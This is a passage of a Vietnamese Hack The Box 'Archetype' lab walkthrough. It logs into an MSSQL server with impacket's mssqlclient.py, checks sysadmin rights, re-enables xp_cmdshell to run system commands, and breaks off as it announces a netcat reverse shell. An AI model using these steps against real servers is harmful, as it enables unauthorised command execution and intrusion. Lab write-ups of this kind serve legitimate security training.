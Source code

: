 ```
python3 mssqlclient.py -h
```
###### Xem thêm cách sử dụng: https://www.kali.org/tools/impacket/
##### + Kết nối với MSSQL Server:
`python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.28.17 -windows-auth`
###### -windows-auth: setting để sử dụng Windows Authen (mặc định 'False')
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/90040615-628e-4440-be7a-ccba13316eca)
##### => Đăng nhập vào MSSQL server thành công!

### 3.1 Tìm kiếm thông tin trong MSSQL
###### nguồn tham khảo sâu hơn sau khi thâm nhập MSSQL server: 
###### https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
###### https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
##### + Đầu tiên, kiểm tra vai trò người dùng: 
```
SQL (ARCHETYPE\sql_svc dbo@master)> SELECT is_srvrolemember('sysadmin');
-
1
```
##### + Output 1 = True; Tài khoản người dùng có quyền admin hệ thống, quyền cao nhất trong SQL.
##### + Set up thi hành lệnh thông qua xp_cmdshell:
` EXEC xp_cmdshell 'net user' `
###### EXEC: nói với hệ thổng ta sẽ thực thi lệnh (viết tắt của execution).
###### xp_cmdshell: một thủ tục lưu trữ mở rộng (extended stored procedure) trong SQL server cho phép thực thi một lệnh shell
###### net user: lệnh sẽ thi được thi hành, sử dụng để show thông tin tài khoản user trong hệ thống Window.
##### + Bị báo lỗi do mặc định thì *xp_cmdshell* sẽ bị vô hiệu hóa vì lí do bảo mật. Ta sẽ tái kích hoạt setting đó: 
```
EXEC sp_configure ‘show advanced options’ , 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
##### + Như vậy ta đã có thể thi hành lệnh trên hệ thống, kiểm tra:
```
SQL> xp_cmdshell "whoami"
output
------------------------------------------------------------------
archetype\sql_sbc
NULL
SQL>
```
### 3.2 Thực thi Reverse shell trên MSSQL:
##### + Tiếp theo, ta sẽ reverse shell để tăng độ ổn định khi kết nối. Ta sẽ upload file thực thi `nc64.exe` đến target và thực thi một process `cmd.exe` trên cổng lắng nghe: